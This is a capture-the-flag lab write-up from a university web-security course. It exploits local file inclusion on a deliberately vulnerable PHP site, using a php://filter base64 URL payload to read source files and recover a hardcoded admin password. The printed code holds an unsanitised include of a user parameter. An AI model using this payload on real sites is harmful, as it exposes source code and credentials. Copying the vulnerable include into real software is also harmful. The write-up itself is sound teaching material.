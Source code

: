 ```yaml
---
title: Simple Web 0x08(Lab - My First Meow Website)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > LFI"
---
```


# Simple Web 0x08(Lab - My First Meow Website)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8400/
Target: Login as Admin

## Background
[PHP 偽協議 (一) ](https://ithelp.ithome.com.tw/articles/10245020)
[Web Security 0x1](https://youtu.be/_hasOTGximc?t=2855)

## Exploit
1. Observe
According to the URL, `http://h4ck3r.quest:8400/?page=inc/home`, it might have `LFI` problem.
2. Use `php://filter` to read page
    `http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=inc/home`
    :::spoiler page source code
    ```php=
    <!DOCTYPE html>
    <html lang="en">

    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Meow</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.2/css/bulma.min.css">
    </head>

    <body>
        <nav class="navbar is-dark" role="navigation" aria-label="main navigation">
            <div class="navbar-brand">
                <a class="navbar-item" href="/?page=inc/home">🐱</a>
            </div>

            <div id="navbarBasicExample" class="navbar-menu">
                <div class="navbar-start">
                    <a class="navbar-item" href="/?page=inc/home">
                        Home
                    </a>
                    <a class="navbar-item" href="/?page=inc/about">
                        About
                    </a>
                    <a class="navbar-item" href="/admin.php">
                        Admin
                    </a>
                </div>
            </div>
        </nav>

        <div class="container" style="margin-top: 1em;">
            <?php
            if (isset($_GET['page']))
                include($_GET['page'] . ".php");
            else
                include("inc/home.php");
            ?>
        </div>
    </body>

    </html>
    ```
    :::
3. Observe page source code
We know that `admin.php` is under `/` directory.
`http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=admin`
    :::spoiler admin source code
    ```php=
    <h1>Admin Panel</h1>
    <form>
        <input type="text" name="username" value="admin">
        <input type="password" name="password">
        <input type="submit" value="Submit">
    </form>

    <?php
    $admin_account = array("username" => "admin", "password" => "kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ");
    if (
        isset($_GET['username']) && isset($_GET['password']) &&
        $_GET['username'] === $admin_account['username'] && $_GET['password'] === $admin_account['password']
    ) {
        echo "<h1>LOGIN SUCCESS!</h1><p>".getenv('FLAG')."</p>";
    }

    ?>
    ```
    :::
4. Then we get admin password is: `kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ`. Then we got flag!!!
